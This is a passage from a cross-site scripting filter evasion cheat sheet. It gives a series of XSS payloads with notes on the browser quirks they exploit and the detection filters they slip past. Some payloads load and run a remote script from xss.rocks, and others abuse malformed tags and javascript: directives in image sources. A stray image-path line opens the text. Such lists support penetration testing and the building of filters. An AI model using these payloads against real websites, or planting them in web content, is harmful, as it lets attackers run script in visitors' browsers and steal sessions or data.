 ```html
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.

```html
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

## Extraneous Open Brackets

Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:

```html
<<SCRIPT>alert("XSS");//\<</SCRIPT>
```

## No Closing Script Tags

In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don't actually need the `\></SCRIPT>` portion of this Cross Site Scripting vector. Firefox assumes it's safe to close the HTML tag and add closing tags for you. How thoughtful\! Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they're not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:

```html
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
```

## Protocol Resolution in Script Tags

This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh's protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a `</SCRIPT>` tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The ".j" is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.

```html
<SCRIPT SRC=//xss.rocks/.j>
```

## Half Open HTML/JavaScript XSS Vector

Unlike Firefox the IE rendering engine doesn't add extra data to you page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close "\>" tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it doesn't require the end "\>". As a side note, this was also affective against a real world XSS filter I came across using an open ended `<IFRAME` tag instead of an `<IMG` tag:

```html
<IMG SRC="`<javascript:alert>`('XSS')"`
```

